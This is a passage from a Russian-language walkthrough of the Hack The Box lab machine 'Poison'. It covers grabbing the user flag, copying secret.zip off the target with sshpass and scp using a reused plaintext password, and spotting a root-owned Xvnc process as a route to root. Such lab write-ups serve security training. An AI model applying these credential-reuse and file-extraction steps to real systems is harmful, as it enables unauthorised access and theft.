 ```text
-rw-r-----  1 charix  charix   254 Mar 19 16:08 .login
-rw-r-----  1 charix  charix   163 Mar 19 16:08 .login_conf
-rw-r-----  1 charix  charix   379 Mar 19 16:08 .mail_aliases
-rw-r-----  1 charix  charix   336 Mar 19 16:08 .mailrc
-rw-r-----  1 charix  charix   802 Mar 19 16:08 .profile
-rw-r-----  1 charix  charix   281 Mar 19 16:08 .rhosts
-rw-r-----  1 charix  charix   849 Mar 19 16:08 .shrc
drwx------  2 charix  charix   512 Sep 16 11:57 .ssh
-rw-r-----  1 root    charix   166 Mar 19 16:35 secret.zip
-rw-r-----  1 root    charix    33 Mar 19 16:11 user.txt
```

## user.txt
Заберем флаг пользователя:
```text
charix@Poison:~ % cat /home/charix/user.txt
eaacdfb2????????????????????????
```

И уделим внимание файлу с интригующим названием `secret.zip`. Заберем на свою машину для изучения:
```text
root@kali:~# sshpass -p 'Charix!2#4%6&8(0' scp -oStrictHostKeyChecking=no charix@10.10.10.84:secret.zip .

root@kali:~# unzip secret.zip
Archive:  secret.zip
[secret.zip] secret password: Charix!2#4%6&8(0
 extracting: secret
```

```text
root@kali:~# cat secret
[|Ֆz!

root@kali:~# xxd secret
00000000: bda8 5b7c d596 7a21                      ..[|..z!
```

Скачали, распаковали (обратим внимание на плохую политику паролей: пароль от пользовательской учетки подошел и для архива), просмотрели содержимое. Просто набор байт, пока кроме предположения, что это ключ к какому-то сервису, ничего в голову не приходит.

## PrivEsc: charix → root

Вернемся на Poison и осмотримся. Среди множества мусора, полученного в результате вывода `ps aux`, видим одну необычную строчку:
```text
charix@Poison:~ % ps auxww
USER    PID  %CPU %MEM    VSZ   RSS TT  STAT STARTED     TIME COMMAND
...
root    545   0.0  0.9  23620  9032 v0- I    15:13    0:00.09 Xvnc :1 -desktop X -httpd /usr/local/share/tightvnc/classes -auth /root/.Xauthority -geometry 1280x800 -depth 24 -rfbwait 120000 -rfbauth /root/.vnc/passwd -rfbport
...
```
